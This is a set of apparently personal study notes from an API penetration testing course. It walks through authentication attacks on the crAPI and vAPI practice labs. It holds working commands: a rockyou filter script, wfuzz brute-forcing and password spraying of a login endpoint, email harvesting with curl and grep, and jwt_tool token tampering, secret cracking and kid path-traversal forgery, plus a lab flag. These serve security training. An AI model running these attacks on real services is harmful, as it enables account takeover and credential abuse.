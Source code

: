 # Authentication Attacks  

>[Introduction to Authentication Attacks](https://university.apisec.ai/products/api-penetration-testing/categories/2150251352/posts/2161556362)  

## Classic Authentication Attacks  

>[Classic Authentication Attacks](https://university.apisec.ai/products/api-penetration-testing/categories/2150251352/posts/2157505645)  

>Password Brute-Force Attacks  

>Information about creating targeted password lists:  

* [Mentalist](https://github.com/sc0tfree/mentalist)  
* [Common User Passwords Profiler](https://github.com/Mebus/cupp)  

>Get words matching complex password policy of target, bash script:  

```bash
#!/bin/bash

# Input and output file names
input_file="/usr/share/wordlists/rockyou.txt"
output_file="complex-passwords-uniq-sorted-0955.txt"
temp_file="temp-results.txt"

# Set locale to C to avoid issues with multibyte characters in rockyou.txt
export LC_ALL=C

# Clear the temp file if it already exists to avoid duplicate entries
> "$temp_file"

# Use awk to match words that meet all specified conditions and append to temp file
awk '{
  for (i = 1; i <= NF; i++) {
    word = $i
    if (length(word) >= 8 && 
        word ~ /[A-Z]/ && 
        word ~ /[a-z]/ && 
        word ~ /[0-9]/ && 
        word ~ /[!@#$%^&*()_+{}\[\]:;<>,.?~\\/-]/) {
      print word >> "'"$temp_file"'"
    }
  }
}' "$input_file"

# Append sorted unique words from temp file to output file without overwriting
sort "$temp_file" | uniq >> "$output_file"

# Remove duplicate lines in output file to ensure all entries are unique
sort -u "$output_file" -o "$output_file"

# Remove the temporary file after processing
rm "$temp_file"

# Output message
echo "Unique sorted words matching the complex password policy conditions saved to $output_file."
```  

>Password Spraying, using `wfuzz` against the API web application endpoint:  

```
wfuzz -d '{"email":"a@email.com","password":"FUZZ"}' -H 'Content-Type: application/json' -z file,/usr/share/wordlists/rockyou.txt -u http://127.0.0.1:8888/identity/api/auth/login --hc 405
```  

>The `--hc` option hides responses with certain response codes. 
>`–hc` option helps you filter out the responses you don’t want to see.  
>The `-H` option add a header to the request. API respond with an HTTP 415 Unsupported Media Type error, if you don’t include the `Content-Type:application/json` header.  

>Sample of passwords to be used during password spray attack:  

```
QWER!@#$
Password1!
Winter2021!
Spring2021?
Fall2021!
Autumn2021?
Summer2022!
Spring2022!
QWER!@#$
March212006!
July152006!
Twitter@2022
JPD1976!
Dorsey@2022
```  

>Extract emails, with regular expressions to pull emails from the saved JSON response.  

>If the output in Burp is too large for the response window, then copy the request into `curl` command and save output to `response.json`  

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: 127.0.0.1:8888' -H $'sec-ch-ua-platform: \"Linux\"' -H $'Authorization: Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ0ZXN0MUB0ZXN0LmNvbSIsImlhdCI6MTczMDI3NjkyNCwiZXhwIjoxNzMwODgxNzI0LCJyb2xlIjoidXNlciJ9.ZWyuFqX5-mkyY4i-Iiwk8lnHWR_TJmw0wEOuhODqyRce94JSAc6BdZaDAr6V5QfQpeBJ3LL6rx3e46hRGf2_0CEtHanSvpMqRvxRLMhsgXqkylczWVG1rMEU6tC_4mK3WTx7JeGRsJGBcCaehbAO23f6Vw5s4uVhTGvracy-mO_Qc89nJBdm37S2SVpUfZtgMV_PceIExlg_ZVFJi9xA4ARtaUp8Edh_Q6vO9CePllB_77j7FsbXa1hEa1-bnY1AO2muBMYUEweptjsy30WGWfIm-YsaVy4pM4Ttvjx5LlFTXqTUiXvIJwL9_kiic2rQbsq6ZFJKlV0YSjT3vEXC9A' -H $'Accept-Language: en-US,en;q=0.9' -H $'sec-ch-ua: \"Not?A_Brand\";v=\"99\", \"Chromium\";v=\"130\"' -H $'Content-Type: application/json' -H $'sec-ch-ua-mobile: ?0' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.59 Safari/537.36' -H $'Accept: */*' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Dest: empty' -H $'Referer: http://127.0.0.1:8888/forum' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' \
    $'http://127.0.0.1:8888/community/api/v2/community/posts/recent?limit=30&offset=0' > response.json
```  

>Get email values from response file using grep:  

```
grep -oe "[a-zA-Z0-9._]\+@[a-zA-Z]\+.[a-zA-Z]\+" response.json
```  

>Note on Base64 Encoding  

>Using Burp Suite Professional, ***Payloads*** window add a `Payload processing` rule.  
>Select `Add > Encoded > Base64-encode` and then click OK.  

----  

## API Token Attacks  

>[API Token Attacks - API Authentication Attacks](https://university.apisec.ai/products/api-penetration-testing/categories/2150251352/posts/2157505646)  

### Token Analysis  

>Change ***Postman*** custom proxy to send requests to Burp Suite `127.0.0.1:8080`  

>Capture the login POST request, `http://127.0.0.1:8888/identity/api/auth/login`, and send it to Burp Sequencer:  

![crapi-burp-sequencer-custom-location-in-response.png](/images/crapi-burp-sequencer-custom-location-in-response.png)  

>Start Live Capture, using the crAPI Burp Sequencer with the custom location of the JWT token value.  

![crAPI burp sequencer results-20000](/images/crapi-burp-sequencer-results-20000.png)  

### Automating JWT attacks with JWT_Tool  

>JWT tool scanning mode playbook:  

>Download copy of wordlist for JWT attacks: [jwt-common.txt](https://raw.githubusercontent.com/ticarpi/jwt_tool/refs/heads/master/jwt-common.txt)  

```
jwt_tool -t http://127.0.0.1:8888/identity/api/v2/vehicle/vehicles -rh 'Authorization: Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ0ZXN0MUB0ZXN0LmNvbSIsImlhdCI6MTczMDI4NjM5MSwiZXhwIjoxNzMwODkxMTkxLCJyb2xlIjoidXNlciJ9.if-KPemRJ5ze7rqiZPWuY7ZvY9xo-ACeFrd0P0Z_-s7NjG18I22hjl5rWgF9uheq9c7vOqLys-OQcNYp87cr-RBVOsDbDIzsnjmhgH4MDLjzR7XJMaxbZu4vRRzoDmi54yLebhvWeTdMNf8HlYvnZvMhSzvsj9GMKBbI926SfoDEx71BzR23pQg27ekNg6s4Ige5IpvLP3m1rv94kyrMjGsxqHev-fYlS3IrpxM1maAPNPT_j-AGwtgWxt9VtZtx-nsztxY-TUAEAU7_mnPMfE27U_KfnU0IutQja-z1oXDxEIZ__7rqFGLWW1sYQ6C-0OefRAJ-i1T9HC7fwAF6Sw' --mode pb
```    

>JWT tool attack mode: null

```
jwt_tool -X a -t http://127.0.0.1:8888/identity/api/v2/vehicle/vehicles -rh 'Authorization: Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ0ZXN0MUB0ZXN0LmNvbSIsImlhdCI6MTczMDI4NjM5MSwiZXhwIjoxNzMwODkxMTkxLCJyb2xlIjoidXNlciJ9.if-KPemRJ5ze7rqiZPWuY7ZvY9xo-ACeFrd0P0Z_-s7NjG18I22hjl5rWgF9uheq9c7vOqLys-OQcNYp87cr-RBVOsDbDIzsnjmhgH4MDLjzR7XJMaxbZu4vRRzoDmi54yLebhvWeTdMNf8HlYvnZvMhSzvsj9GMKBbI926SfoDEx71BzR23pQg27ekNg6s4Ige5IpvLP3m1rv94kyrMjGsxqHev-fYlS3IrpxM1maAPNPT_j-AGwtgWxt9VtZtx-nsztxY-TUAEAU7_mnPMfE27U_KfnU0IutQja-z1oXDxEIZ__7rqFGLWW1sYQ6C-0OefRAJ-i1T9HC7fwAF6Sw'
```  

>Create a wordlist for brute forcing of JWT token secret using `crunch`  

>Use Crunch, a password-generating tool, to create a list of all possible character combinations to use against crAPI.  

```
crunch 5 5 -o crAPIpw.txt
```  

>Crack JWT secret password, fails.
>JWT is using an RSA asymmetric hashing algorithm, using SHA256, this is a major change from the earlier version of crAPI that used an HMAC symmetric hashing algorithm along with a pretty easy secret to crack).  

```
jwt_tool eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ0ZXN0MUB0ZXN0Lx <snip> eVpTeFReatAeFEBTkQSGaFN8FQlDwSBPWnXMcA -C -d crAPIpw.txt
```  

### Key ID (kid) path traversal attack  

```
jwt_tool <jwt token> -T -S hs256 -p AA==
```  

>`-T` is the tamper command (to edit the content of the JWT)  
>`-S` hs256 is to encode the token using an HS256 algorithm  
>`-p` `AA==` is to sign the token with the secret: `AA==`  

```
jwt_tool 'eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ0ZXN0MUB0ZXN0LmNvbSIsImlhdCI6MTczMDI4OTM5NSwiZXhwIjoxNzMwODk0MTk1LCJyb2xlIjoidXNlciJ9.gDKuSWKWReVylR-9HGx9f_7Zxdzgyvge1S5xXbMh1wfZrHS6xDF6XlDPyGuznfjqCPMEvF9A8wfbppJUISWqBYQZDjYgATFtk0akpm7xBBHqg24IEDerq9RA3iCVNGmJaWcIVcu07hMyd3ndsnnuKfJjlyI4_ZvSra2QZawZpT72dFe030Wc9zepaXHopYA-1XdK7qsujqGzbjbNSw2khtyDcgJ1HgxRJ1f_J1mB58CX12X4qNUFRATvV2o1J68hXrl0zuNNuB3KI_AsDKAzeN4F-iK__2WLOZrT9RJTri43enQ6h6zBQ3tO9vwHAxwgeD_F79vnqu8IT5MeptDWOg' --tamper --sign hs256 --password AA==
```  

– change the algorithm from RS256 to HS256
– in the token’s header section, add a new parameter called kid and include this value: `../../../../../../dev/null`
– sign the token using this secret: AA==  


>[crapi Challenge 15 – Find a way to forge valid JWT Tokens](https://github.com/OWASP/crAPI/blob/7ceb7fa890f5376fdccacc2346c9d2f32097c59f/docs/challengeSolutions.md#challenge-15---find-a-way-to-forge-valid-jwt-tokens)  

>***Unsolved***  

>Password spraying is a classic authentication attack where an attacker will, Attempt to authenticate using a long list of users and a short list of targeted passwords.  

----  

## API Authentication Attacks Assessment  

>The following resources are helpful when testing vAPI for API authentication weaknesses. 

>[vapi Resources API2 Credential Stuffing](https://github.com/roottusk/vapi/blob/master/Resources/API2_CredentialStuffing/creds.csv)  

When using the credentials found in API2_CredentialStuffing to attack http://vapi.apisec.ai/vapi/api2/user/login, these three email domain names were compromised:  

```
yahoo.com
ortiz.com
beatty.info
```  

>Which of the following is the flag for sending a successful GET request to http://vapi.apisec.ai/vapi/api2/user/details?  

```
flag{api2_6bf2beda61e2a1ab2d0a}
```  

----  
